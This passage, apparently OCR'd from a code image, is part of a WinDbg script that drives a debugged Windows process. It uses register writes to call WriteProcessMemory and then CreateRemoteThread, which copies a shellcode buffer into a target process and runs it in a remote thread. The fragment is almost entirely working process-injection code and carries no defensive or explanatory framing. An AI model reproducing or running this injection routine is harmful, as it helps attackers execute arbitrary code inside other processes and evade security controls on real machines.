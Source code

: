 ```
r @$t5 = rax

$$ Set up to call WriteProcessMemory(hProcess, lpBaseAddress, lpBuffer, nSize, *lpNumberOfBytesWritten)
r rcx = @$t4
r rdx = @$t5
r r8 = @$t0
$$ Replace with hex shellcode size
r r9 = ${$arg2}

$$ Push additional argument onto the stack
eq rsp+0x20 0

$$ Push the current RIP as the return address onto the stack
r rsp = rsp - 0x8
eq rsp @$t9

$$ Adjust RIP to WriteProcessMemory()
r rip = kernel32!WriteprocessMemory

$$ Execute WriteProcessMemory()
g

$$ Capture the result of WriteProcessMemory()
r @$t6 = rax

$$ Set up to call CreateRemoteThread(hProcess, NULL, 0, lpStartAddress, NULL, NULL, NULL)
r rcx = @$t4
r rdx = 0
r r8 = 0
r r9 = @$t5

$$ Push additional arguments onto the stack
eq rsp+0x20 0
eq rsp+0x28 0
eq rsp+0x30 0

$$ Push the current RIP as the return address onto the stack
r rsp = rsp - 0x8
eq rsp @$t9

$$ Adjust RIP to CreateRemoteThread()
r rip = kernel32!CreateRemoteThread

$$ Execute CreateRemoteThread()
g

$$ Restore stack pointer to previous state
r rsp = @$t8
```
